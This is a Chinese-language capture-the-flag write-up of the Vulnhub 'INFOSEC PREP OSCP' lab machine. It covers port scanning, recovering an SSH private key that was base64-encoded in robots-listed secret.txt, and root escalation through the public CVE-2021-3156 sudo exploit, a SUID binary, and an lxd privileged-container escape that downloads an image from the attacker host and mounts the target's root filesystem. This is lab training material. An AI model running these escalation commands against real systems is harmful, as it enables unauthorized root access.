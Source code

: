 ```yaml
---

title: Vulnhub	508 INFOSEC PREP OSCP
date: 2020-07-11
---
```

考点：ssh证书认证

靶机链接：<https://www.vulnhub.com/entry/infosec-prep-oscp,508/>
<!--more-->
## 环境配置

| 名称              | IP        |
| ----------------- | --------- |
| Kali Linux        | 10.0.2.15 |
| INFOSEC PREP OSCP | 10.0.2.19 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.19
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000

```

### WEB测试

#### dirb

确认80端口是wordpress

#### nikto

发现robots.txt存在secret.txt 

### 漏洞发现

一看secret.txt 的内容就是base64加密过的，解密得到ssh登录私钥

![1](https://static.iihack.com/vulnhub/508/1.png)

![2](https://static.iihack.com/vulnhub/508/2.png)

## 获得权限

查看网页获得用户名`oscp`

![3](https://static.iihack.com/vulnhub/508/3.png)

把base64解密后存为文件 `id_rsa`，登录成功

![4](https://static.iihack.com/vulnhub/508/4.png)

## 提权

### CVE-2021-3156

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

### suid

![5](https://static.iihack.com/vulnhub/508/5.png)

直接

![6](https://static.iihack.com/vulnhub/508/6.png)

### lxd/lxc

参考：<https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/>

现在kali上编译镜像包

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ sudo ./build-alpine 
```





不要在`/tmp`目录

```bash
-bash-5.0$ cd ~
-bash-5.0$ wget http://10.0.2.15/alpine-v3.16-x86_64-20220829_0227.tar.gz
#找lxc
-bash-5.0$ find / -name lxc > lxcsearch.txt
-bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-x86_64-20200719_2153.tar.gz --alias trenchesofit
-bash-5.0$ /snap/bin/lxc image list
-bash-5.0$ /snap/bin/lxc storage create pool dir
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool
-bash-5.0$ /snap/bin/lxc init trenchesofit ignite -c security.privileged=true
-bash-5.0$ /snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
-bash-5.0$ /snap/bin/lxc start ignite
-bash-5.0$ /snap/bin/lxc exec ignite /bin/sh

```

![7](https://static.iihack.com/vulnhub/508/7.png)
